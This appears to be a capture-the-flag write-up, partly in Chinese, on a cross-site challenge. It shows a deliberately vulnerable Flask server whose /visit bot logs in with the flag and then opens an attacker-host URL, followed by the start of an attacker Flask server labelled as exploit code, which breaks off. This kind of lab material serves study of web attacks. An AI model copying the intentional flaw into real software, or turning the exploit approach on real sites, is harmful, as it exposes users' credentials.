 ```python
        assert user, "Not logged in"
        db.execute(f"UPDATE users SET leak = TRUE WHERE rowid = ?", (user_id,))
        return "Leaked\n"

    if request.path == "/info":
        assert "user" in request.args, "Missing `user` argument"
        user_id = int(request.args["user"])
        user = db.execute("SELECT * FROM users WHERE rowid = ?", (user_id,)).fetchone()
        assert user, "Invalid `user`"
        info = [user["username"]]
        if user["leak"]:
            info.append(user["password"])
        return " ".join(info) + "\n"

    if request.path == "/visit":
        url = request.args.get("url")
        assert url, "Missing `url` argument"

        url_arg_parsed = urllib.parse.urlparse(url)
        assert url_arg_parsed.hostname == hacker_host, f"Invalid `url`, hostname should be `{hacker_host}`"

        with run_browser() as browser:
            browser.get(f"http://{challenge_host}/login")

            user_form = {
                "username": "flag",
                "password": flag,
            }
            for name, value in user_form.items():
                field = browser.find_element(By.NAME, name)
                field.send_keys(value)

            submit_field = browser.find_element(By.ID, "submit")
            submit_field.submit()
            WebDriverWait(browser, 10).until(EC.staleness_of(submit_field))

            browser.get(url)
            time.sleep(1)

        return "Visited\n"

    return "Not Found\n", 404

```

利用代码
```python
服务器：
from flask import Flask, redirect, request, session, render_template
import requests
import http.client

app = Flask(__name__)


@app.route('/')
def index():
    # 创建一个访问challenge.localhost的请求
    return render_template("index.html")
    # challenge_url = "http://challenge.localhost/leak"
    # return redirect(challenge_url)

@app.route('/leak')
```